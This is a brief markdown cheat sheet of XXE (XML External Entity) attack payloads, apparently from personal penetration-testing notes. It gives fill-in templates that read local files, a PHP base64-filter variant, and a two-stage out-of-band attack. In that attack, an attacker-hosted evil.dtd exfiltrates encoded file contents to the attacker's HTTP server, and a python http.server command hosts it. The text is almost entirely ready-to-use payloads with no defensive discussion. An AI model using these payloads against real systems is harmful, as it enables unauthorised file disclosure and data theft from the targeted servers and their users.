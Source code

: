 ```yaml
---
title: "XXE (XML External Entity)"
date: 2025-7-17
tags: ["Web Exploitation", "XXE", "Xml", "Dtd", "Web", "Remote File Inclusion", "Data Exfiltration", "PHP FIlter", "LFI", "Local File Inclusion"]
---
```


### XXE Template

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY data SYSTEM "<FILE>">]>
<<TAG>>
    <<TAG1>>&data;</<TAG1>>
</<TAG>>
```

---

### XXE Template (With PHP Filter)

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY data SYSTEM "php://filter/convert.base64-encode/resource=<FILE>">]>
<<TAG>>
    <<TAG1>>&data;</<TAG1>>
</<TAG>>
```

---

### External DTD (2 Stage)

#### 1. Create a evil.dtd

```console
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=<FILE>">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://<LOCAL_IP>:<PORT>/data?%data;'>">
```

#### 2. Host a Server

```console
python3 -m http.server <PORT>
```

#### 2. XXE

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % bar SYSTEM "http://<LOCAL_IP>:<PORT>/evil.dtd">
        %bar;
        %eval;
]>
<<TAG>>
    <<TAG1>>&exfil;</<TAG1>>
</<TAG>>
```
